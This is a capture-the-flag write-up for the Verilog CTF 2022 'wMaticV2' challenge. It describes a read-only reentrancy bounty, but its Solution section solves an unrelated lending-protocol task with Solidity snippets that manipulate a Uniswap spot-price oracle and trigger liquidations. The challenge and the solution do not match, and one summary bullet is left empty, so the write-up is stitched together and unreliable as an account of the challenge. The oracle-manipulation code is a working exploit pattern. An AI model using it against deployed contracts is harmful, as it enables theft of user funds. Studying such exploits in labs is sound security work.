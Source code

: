 # wMaticV2 Challenge
| Verilog Solutions CTF 2022 Challenge - read-only reentrancy hacks

## Description & Setup
This challenge does not need any setup, it contains:
- `WMATICV2.sol` Contract: a newly implemented smart contract for the newest version of wMatic
- `Bounty.sol` Contract: a simple insurance smart contract designed for checking the security of the wMatic V2

| ITEM                                | Description                                    |
|-------------------------------------|------------------------------------------------|
| wMatic Contract                     | 0x0d500B1d8E8eF31E21C99d1Db9A6444d3ADf1270     |
| wMatic V2 Contract                  | 0x5D6C48F05ad0fde3f64baB50628637d73B1eB0BB     |
| Bounty Contract	                    | 0xBcF6e9d27bf95F3F5eDDB93C38656D684317D5b4     |


You can also check here for the smart contract code:
[Verilog CTF 2022 Challenge #2](https://github.com/Verilog-Solutions/CTF-2022-wMaticV2)

To get the bounty, you need to pay attention to the `getBounty()` function inside the Bounty contract:
```solidity
  // from Bounty.sol 
  function getBounty() public returns (bool) {
      uint256 delta = WMATICV2.totalSupply() >= WMATICV2.balance()
          ? WMATICV2.totalSupply() - WMATICV2.balance()
          : WMATICV2.balance() - WMATICV2.totalSupply();
      uint256 tolerance = WMATICV2.balance() / 10;
      if (delta > tolerance) {
          // reward the first finder
          isHacked = true;
          IERC20(WMATIC).transfer(msg.sender, IERC20(WMATIC).balanceOf(address((this))));
          winner = address(msg.sender);
      }
      return isHacked;
  }
```

To summarize the above information:
- 


## Solution

The way to attack this lending protocol is relatively easy to figure out.
The key of the manipulation is within these lines of the code:
```solidity
    function rate() public view returns (uint256) {
        (uint112 _reserve0, uint112 _reserve1,) = pair.getReserves();
        uint256 _rate = uint256(_reserve0 / _reserve1);
        return _rate;
    }
```
The oracle implementation is without the TWAP just brutally using the spot price. 
Thus, we can use flashloan to manipulate the spot price and perform the attack, or just simply use the amount of tokens we had to perform the attack.
In the liquidate function:
```solidity
  // safeDebt calculation
    function safeDebt(address user) public view returns (uint256) {
          return deposited[user] * rate() * 2 / 3;
    }

 // repay a user's loan and get back their collateral. no discounts.
    function liquidate(address user, uint256 amount) public returns (uint256) {
        require(safeDebt(user) <= debt[user], "err: overcollateralized");
        debt[user] -= amount;
        token.transferFrom(msg.sender, address(this), amount);
        uint256 collateralValueRepaid = amount / rate();
        weth.transfer(msg.sender, collateralValueRepaid);
        return collateralValueRepaid;
    }
```
If user's debt is bigger than their safeDebt which means user borrowed AMT token price goes rocket.
Anyone can call liquidation method to liquidate user's fund.

Implementation:
Step 1: Trade 13 ETH for AMT token -> make the token price go roket
```solidity
 // trade 13 eth for some tokens
    address[] memory path = new address[](2);
    path[0] = address(weth);
    path[1] = address(token);
    uint256[] memory tokensReceived = router.swapExactTokensForTokens(
        ethToSend,
        1,
        path,
        address(this),
        type(uint256).max
    );
```

Step 2: we can liquidate the guy with the tokens received
```solidity
    uint256 receivedCollateral = broker.liquidate(address(setup), tokenReceived);
    require(weth.balanceOf(address(this)) > balanceBefore);
```
Although the given solution manipulation is not profitable, but we can for sure manipulate the oracle.
I found another method online, which has similar idea:

Step 1: skew the uniswap ratio by buying lots of tokens
```solidity
    weth.transfer(address(pair), weth.balanceOf(address(this)));
```
Step 2: since win condition is when there are less than 5 eth in the pool, thus we only need to liquidate 21 eth.
```solidity
    uint256 liqAmount = 21 ether * rate;
    broker.liquidate(address(setup), liqAmount);
```

